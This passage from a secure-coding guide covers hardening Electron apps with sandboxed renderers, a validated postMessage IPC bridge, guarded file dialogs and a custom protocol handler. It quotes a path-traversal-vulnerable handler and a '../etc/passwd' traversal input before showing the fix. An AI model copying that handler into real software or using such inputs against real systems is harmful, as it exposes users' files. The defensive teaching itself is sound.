* `webviewTag` - Whether to enable the `<webview>` tag. These tags are exceedingly dangerous, you should always disable this feature.
* `enableRemoteModule` - Whether to enable the [remote module](https://electronjs.org/docs/api/remote). This module is dangerous, and should be disabled whenever possible, we'll talk about a far safer approach to IPC in a bit.
* `allowRunningInsecureContent` - Allow an https page to run JavaScript, CSS, or plugins from http URLs. Default is `false`, but y'all go ahead and double tap this one.
* `nodeIntegration` -  Gives the DOM access to the NodeJS APIs. Recklessly defaults to `true`, always set this to `false`.
* `nodeIntegrationInWorker` - Whether node integration is enabled in web workers. Default is `false`.
* `nodeIntegrationInSubFrames` - Option for enabling Node support in sub-frames such as iframes and child windows, always set this to `false`.
* `nativeWindowOpen` - Whether to use native `window.open()`, because what could go wrong? Defaults to `false`.
* `safeDialogs` - Whether to enable browser-style consecutive dialog protection.

There is no one flag to disable all of the Node integrations in the renderer process, so instead we must disable `nodeIntegration`, `nodeIntegrationInWorker`, `nodeIntegrationInSubFrames`, `webviewTag`, `enableRemoteModule`, and `nativeWindowOpen`. Then we enable `sandbox`,`contextIsolation`, and `webSecurity` to ensure any malicious code injected via XSS cannot easily escape the renderer process. As the [Electron Security documentation](https://electronjs.org/docs/tutorial/security) points out it's imperative to disable `nodeIntegration` as well as enable `contextIsolation` to ensure we properly contain the renderer process.

Next we'll need to selectively re-enable some native functionality and expose it to the renderer process, otherwise we may as well just load the application in the browser. There are a few different ways we can selectively expose functionality to the DOM. The first way is using the `remote` module, but as the Electron documentation even points out this module is dangerous, and we've already disabled it so that's not an option. Electron provides another mechanism called the "preload script" that executes before the DOM is loaded and allows us to expose arbitrary JavaScript symbols to the DOM runtime, and with `contextIsolation` enable the preload script is somewhat safeguarded from tampering by the DOM code. T

The preload script always has access to the NodeJS APIs and has access to the same `window` object as the DOM. The intention of this functionality is so that we can re-introduce Node symbols. However, giving the DOM code direct access to Node symbols is dangerous, and will likely lead to escape vectors. We could also expose custom symbols that perform validation of arguments and this is slightly more safe, but not ideal. [Doyensec](https://blog.doyensec.com/2019/04/03/subverting-electron-apps-via-insecure-preload.html) has a couple great examples of attacking Node symbols that are re-introduced to the DOM runtime.

Instead we'll leverage the browser's `postMessage` API to allow the preload script and the DOM to communicate over an existing mechanism _without exposing any privileged symbols_ or code directly to the sandboxed DOM code. 

```text
                             |------------- Renderer --------------|
[ Main Process ] <--(IPC)--> [ Preload ] <--(postMessage)--> [ DOM ]
```

Below is my basic TypeScript interface for the JSON message we'll use to communicate between the Node (main) process and the untrusted DOM (renderer) process:

```typescript
export interface IPCMessage {
  id: number;
  type: string;
  method: string;
  data: string;
}
```

* __id__: A random integer used to corelate request/responses
* __type__: The type of message, this will be `request`, `response`, or `push`.
  * `request`: An outgoing (from DOM to Node) `request` that should elicit a single `response`. 
  * `response`: A response (from Node to DOM) for a corresponding request, in some cases `response`s may be ignored.
  * `push`: A message pushed from Node to the DOM that was not the result of a `request`
* __method__: The name of the function we want to invoke in the Node process.
* __data__: Parameters to the `method` specified in the message.

This has the advantage of forcing the sandboxed code to communicate with the privileged code using data-only serialization protocols such as JSON. We can easily abstract away the messy IPC details with an Angular service. Here we leverage RXJS observables to hide some of the IPC details like `msgId`s and only expose a simple async request/response API:

#### [`ipc.service.ts`](src/app/providers/ipc.service.ts)
```typescript
export class IPCService {

  private _ipcResponse$ = new Subject<IPCMessage>();

  constructor() {
    // Start a listener, messages are then broadcast via an RXJS Subject
    window.addEventListener('message', (ipcEvent) => {
      try {
        const msg: IPCMessage = JSON.parse(ipcEvent.data);
        if (msg.type === 'response') {
          this._ipcResponse$.next(msg);
        } else if (msg.type === 'push') {
          // Do something with 'push' ...
        }
      } catch (err) {
        console.error(`[IPCService] ${err}`);
      }
    });
  }

  request(method: string, data?: string): Promise<string> {
    return new Promise((resolve, reject) => {
      const msgId = this.randomId();
      const subscription = this._ipcResponse$.subscribe((msg: IPCMessage) => {
        if (msg.id === msgId) {
          subscription.unsubscribe();  // We got our response
          if (msg.method !== 'error') {
            resolve(msg.data);
          } else {
            reject(msg.data);
          }
        }
      });
      // Send request via postMessage() to the preload script
      window.postMessage(JSON.stringify({
        id: msgId,
        type: 'request',
        method: method,
        data: data,
      }), '*');
    });
  }
}
```

Next in the preload script we ensure any given message (1) must be valid JSON, (2) contain the keys `type` and `method`, and `method` must start with the prefix `fs_` before passing it along via Electron's IPC to the main process. This extra namespace is helps ensure we do not inadvertently expose methods that we do not want exposed to the IPC interface. Note we can easily add additional namespaces if we want:

#### [`preload.js`](preload.js)
```javascript
const { ipcRenderer } = require('electron');

// Incoming message from the sandboxed code
window.addEventListener('message', (event) => {
  try {
    const msg = JSON.parse(event.data);
    if (msg.type === 'request') {
      if (['fs_'].some(prefix => msg.method.startsWith(prefix))) {
        ipcRenderer.send('ipc', msg);  // Send message to main process
      }
    }
  } catch (err) {
    console.error(err);
  }
});

// Responses and pushes from the main process
ipcRenderer.on('ipc', (_, msg) => {
  try {
    if (msg.type === 'response' || msg.type === 'push') {
      window.postMessage(JSON.stringify(msg), '*');  // Send back to sandbox
    }
  } catch (err) {
    console.error(err);
  }
});
```

The preload script has two functions, one that does basic format verification of an incoming message (i.e. `request`) and forwards it on to the main process. The second functions takes `response` and `push` messages from the main process and sends them back to the DOM via `postMessage`.

Once a message is sent from the preload script to the main process, it is then passed to our `dispatchIPC()` function, this function is responsible for invoking the proper handler `method`, passing the `data` parameter to the handler, and returning any `response` back to the caller. `IPCHandler` is just a class of static methods (more on this below):

#### [`ipc.ts`](ipc/ipc.ts)
```typescript
async function dispatchIPC(method: string, data: string): Promise<string | null> {
  console.log(`IPC Dispatch: ${method}`);

  // IPC handlers must start with "namespace_" this helps ensure we do not inadvertently
  // expose methods that we don't want exposed to the sandboxed code.
  if (['fs_'].some(prefix => method.startsWith(prefix))) {
    if (typeof IPCHandlers[method] === 'function') {
      const result: string = await IPCHandlers[method](data);  // Call the handler, pass in data
      return result;
    } else {
      return Promise.reject(`No handler for method: ${method}`);
    }
  } else {
    return Promise.reject(`Invalid method handler namespace "${method}"`);
  }
}
```

From here we have a fully functional RPC/IPC interface between the trusted and untrusted code. Next we'll safely re-implement some "Desktop" application functionality.

### File Read

The first common piece of functionality we'll want to restore to our sandboxed application is the ability to read and write to the file system. It would be easy to restrict the sandboxed code to only read/write to certain directories (such as an application subdirectory), but we'll first build an arbitrary file read/write interface that allows the user to select what file(s) to expose to the untrusted code. It's critical we only allow our sandboxed code to ask the trusted code to read a file, simply allowing to sandboxed code to ready any file without user interaction would defeat the purpose of sandboxing the code to begin with.

We'll first create an IPC handler function that accepts parameters from the untrusted code such as the dialog text and default directory. Importantly, the Node process will not actually read any files based on the parameters from the untrusted code we require the user to actively select the files from the file system. The untrusted code only controls what the dialog says, and it could of course lie to the user but at the end of the day the user would have to actively expose the files to the application:

#### [`ipc.ts`](ipc/ipc.ts)
```typescript
export class IPCHandlers {

  static async fs_readFile(req: string): Promise<string> {
    const readFileReq: ReadFileReq = JSON.parse(req);
    const dialogOptions = {
      title: readFileReq.title,
      message: readFileReq.message,
      openDirectory: readFileReq.openDirectory,
      multiSelections: readFileReq.multiSelections
    };
    const files = [];
    const open = await dialog.showOpenDialog(null, dialogOptions);
    await Promise.all(open.filePaths.map((filePath) => {
      return new Promise(async (resolve) => {
        fs.readFile(filePath, (err, data) => {
          files.push({
            filePath: filePath,
            error: err ? err.toString() : null,
            data: data ? base64.encode(data) : null
          });
          resolve(); // Failures get stored in `files` array
        });
      });
    }));
    return JSON.stringify({ files: files });
  }
}
```

The other piece that is controlled by the untrusted code in this example is the `req` parameter, which at this point is just a simple string, that presumably is JSON but if an attacker was able to compromise the sandboxed DOM code via something like cross-site script we can't make any assumptions about the format of this string. We can easily ensure it's valid JSON by simply parsing as such with `JSON.parse()` --but it's entirely possible the attacker could send us a JSON object of different types, lengths, etc. than we're expecting. This can lead to type confusion and mass assignment vulnerabilities among others if we're not careful.

We can create a reusable TypeScript decorator as a convenient way to guardrail our RPC methods. Decorators are a powerful tool that enables us to create "method level" security controls. We are making two big assumptions with the following decorator 1) the wrapped method accepts a single string/JSON argument and 2) the method returns some kind of Promise, since we return a rejected Promise in the event the argument is not properly formatted. Writing a more generic version of this decorator is left as an exercise for the reader:

#### [`ipc.ts`](ipc/ipc.ts)
```typescript
function jsonSchema(schema: object) {
  const ajv = new Ajv({allErrors: true});
  schema["additionalProperties"] = false;  // Disable additionalProperties for all schemas
  const validate = ajv.compile(schema);
  return (target: any, propertyKey: string, descriptor: PropertyDescriptor) => {

    const originalMethod = descriptor.value;
    descriptor.value = (arg: string) => {
      const valid = validate(arg);
      if (valid) {
        return originalMethod(arg); // Call the wrapped function with the original arg
      } else {
        console.error(validate.errors);
        return Promise.reject(`Invalid schema: ${ajv.errorsText(validate.errors)}`);
      }
    };

    return descriptor;
  };
}
```

Now for every method we can easily wrap our handler with the `@jsonSchema` decorator to ensure any call to the function will contain a properly formatted/typed JSON object. In fact, the handler code won't even be executed unless the untrusted code provides us with a properly formatted message:

#### [`ipc.ts`](ipc/ipc.ts)
```typescript
export class IPCHandlers {

  @jsonSchema({
    "properties": {
      "title": {"type": "string", "minLength": 1, "maxLength": 100},
      "message": {"type": "string", "minLength": 1, "maxLength": 100},
      "openDirectory": {"type": "boolean"},
      "multiSelections": {"type": "boolean"},
    },
    "required": ["title", "message"]
  })
  static async fs_readFile(req: string): Promise<string> {
```

There is some overlap here since we're using TypeScript, but JSON Schema gives us more control over how to validate the incoming JSON object than simply typecasting it to an interface. However, this technique can be easily repurposed into pure ES2015+ JavaScript too.

However, JSON schema only validates the format of the object, it make assurances that the values within the JSON object are safe to use. We still must properly validate, normalize, sanitize, and/or encode values depending on the context in which they are used. 

### File Write

To demonstrate this let's create another IPC handler that can be used to save or write files to the file system from the DOM/untrusted code. In this case the untrusted code controls the `filename` parameter, but our JSON Schema only validates that this parameter is a string. If that string contained a value such as `../../../../foo` it could be problematic. So it is paramount that we use `path.basename()` to ensure the dialog defaults to the correct path: 

```typescript
export class IPCHandlers {

  // ... remove for brevity

  @jsonSchema({
    "properties": {
      "title": {"type": "string", "minLength": 1, "maxLength": 100},
      "message": {"type": "string", "minLength": 1, "maxLength": 100},
      "filename": {"type": "string", "minLength": 1},
      "data": {"type": "string"}
    },
    "required": ["title", "message", "filename", "data"]
  })
  static fs_saveFile(req: string): Promise<string> {
    return new Promise(async (resolve, reject) => {
      const saveFileReq: SaveFileReq = JSON.parse(req);
      const dialogOptions = {
        title: saveFileReq.title,
        message: saveFileReq.message,
        // Default path is the Downloads directory, careful incorporating the untrusted filename
        defaultPath: path.join(homedir(), 'Downloads', path.basename(saveFileReq.filename)),
      };
      const save = await dialog.showSaveDialog(dialogOptions);
      console.log(`[save file] ${save.filePath}`);
      if (save.canceled) {
        return resolve('');  // Must return to stop execution
      }
      const fileOptions = {
        mode: 0o644,
        encoding: 'binary',
      };
      const data = Buffer.from(base64.decode(saveFileReq.data));
      fs.writeFile(save.filePath, data, fileOptions, (err) => {
        if (err) {
          reject(err);
        } else {
          resolve(JSON.stringify({ filename: save.filePath }));
        }
      });
    });
  }
```

This is of course just a simple example, in more complex APIs even more validation/normalization/canonicalization/encoding may be required to safely use a given value. The key take away here is that we cannot rely upon JSON Schema to do all of the validation, we still need to treat these values as untrusted parameters.

In the end we're left with a very simple API for our component code, and if we wanted we could even mock many of the existing Node APIs into an IPC/RPC sandboxed version. The example we just build exposes the following API to read files from within the sandbox:

```typescript
const resp = await this._fsService.readFile('Open File', 'Please select a file');
```

Since we've abstracted away many of the security complexities we're left with a reusable, safe, and easy to use API call. I'd personally argue that a "secure" but difficult to use API is in fact just insecure, since the human programmers will be discouraged from using it.

### Navigation

Next we'll disable navigation in our application windows, another method to load remote code or bypass the CSP would be to navigate the frame away from our application to an attacker controlled origin. [Disabling navigation while in sandbox mode](https://github.com/electron/electron/issues/8841) may be a little buggy depending on your version of Electron but it's still a good idea to implement. These callbacks go in your `main.ts` and affect the entire application:

[`main.ts`](main.ts#L96)
```typescript
  app.on('web-contents-created', (_, contents) => {
    contents.on('will-navigate', (event, url) => {
      console.log(`[will-navigate] ${url}`);
      console.log(event);
      event.preventDefault();
    });
    contents.on('will-redirect', (event, url) => {
      console.log(`[will-redirect] ${url}`);
      console.log(event);
      event.preventDefault();
    });
  });
```

Since we've implemented a single-page application using Angular, there's no legitimate scenario where a window should navigate away from the initial URL.

### Origin Security

We also want to avoid having the application execute within the `file://` origin, as we've discussed `file://` origins can be problematic and expose potential opportunities for attackers to bypass the CSP and load remote code. Futhermore, since `file://` URIs lack proper MIME types Electron will [refuse to load ES6 modules](https://github.com/electron/electron/issues/12011) from this origin. Therefore, we can both improve security and enable the use of modern ES6 modules at the same type by switching to a custom protocol. This is done in Electron using `RegisterBufferProtocolRequest`, ironically all of the provided [examples in the Electron documentation are vulnerable to path traversal](https://electronjs.org/docs/api/protocol), which would allow an attacker to read any file on the filesystem even if `nodeIntegration` is disabled:

#### Vulnerable Protocol Handler
```javascript
const { app, protocol } = require('electron')
const path = require('path')

app.on('ready', () => {
  protocol.registerFileProtocol('atom', (request, callback) => {
    const url = request.url.substr(7)
    callback({ path: path.normalize(`${__dirname}/${url}`) })
  }, (error) => {
    if (error) console.error('Failed to register protocol')
  })
})
```

Note that `path.normalize` operates on the result of concatenating `__dirname` and `url`, the latter contains the untrusted code's request path. So if `url` contains `../../../../../../../../../etc/passwd` and `__dirname` is `/opt/foo/bar` it will normalize to simply `/etc/passwd`.

Here is our fixed version, note that `path.normalize()` is called prior to joining the paths:

#### [`app-protocol.ts`](app-protocol.ts#L53)
```typescript
export function requestHandler(req: Electron.RegisterBufferProtocolRequest, next: ProtocolCallback) {
  const reqUrl = new URL(req.url);
  let reqPath = path.normalize(reqUrl.pathname);  // Normalize untrusted path
  if (reqPath === '/') {
    reqPath = '/index.html';
  }
  const reqFilename = path.basename(reqPath);
  fs.readFile(path.join(DIST_PATH, reqPath), (err, data) => {
    const mimeType = mime(reqFilename);
    if (!err && mimeType !== null) {
      next({
        mimeType: mimeType,
        charset: charset(mimeType),
        data: data
      });
    } else {
      console.error(err);
      next({
        mimeType: null,
        charset: null,
        data: null
      });
    }
  });
}
```

We then use a `<base>` tag to redirect any relative paths to our new protocol (and host):

```html
<!doctype html>
<html>
<head>
  <meta charset="utf-8">
  <title>Reasonably Secure Electron</title>
  <base href="app://rse">
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'self'; img-src 'self' data:; style-src 'self' 'unsafe-inline'; connect-src 'self'; font-src 'self';">
```

Note that we still need to include a host (`rse` in the example above), even though our protocol handler does not utilize that part of the URL, this is done so that the `new URL()` parser correctly parses the `.pathname` attribute. The base tag ensures any relative URIs such as `<script src="./bundle.js">` are re-written to `app://rse/bundle.js` so that the file is loaded over the `app://` protocol instead of HTTP or `file://`. This means our application no longer runs in a `file://` origin, and the browser's SOP will give us some protections against interacting with other non-app specific origins:



So given our CSP contains `default-src 'none'; script-src 'self'` and `'self'` now points to `app://` and we no longer need to worry about UNC paths nor any of the other subtle complications that come from executing in a `file://` origin. Actually our sandboxed code cannot even easily send an HTTP request since `connect-src` only allows `'self'`! Similar to how we built a controlled abstraction on top of filesystem interactions we could now build a similar HTTP abstract and exert control over what types of HTTP requests and what domains the sandboxed code can even talk to --that said, don't rely on CSP to prevent data exfiltration, it's not a game you'll win.

We do have to cede one unsafe content source: `style-src 'self' 'unsafe-inline'`, which is required for the Angular CSS engine to work properly. However, our primary concern is the injection of active content i.e. JavaScript, and while [injection of non-JavaScript content](http://lcamtuf.coredump.cx/postxss/) can still be dangerous, the benefits that come from using Angular far outweigh this small drawback.

## When in Doubt, Castle

Having spent my entire career finding flaws in software, I can assure you any sophisticated attacker will actively seek out single points of failure to exploit within an application or system. The ["defense in depth"](https://en.wikipedia.org/wiki/Defense_in_depth_(computing)) mantra does not just apply to networks and systems, but also to application design. By taking the area of the application with the largest attack surface (the DOM) and layering defences around it, we significantly reduce the chance of catastrophic failure. This principle can and should be applied to any software, not just Electron-based applications.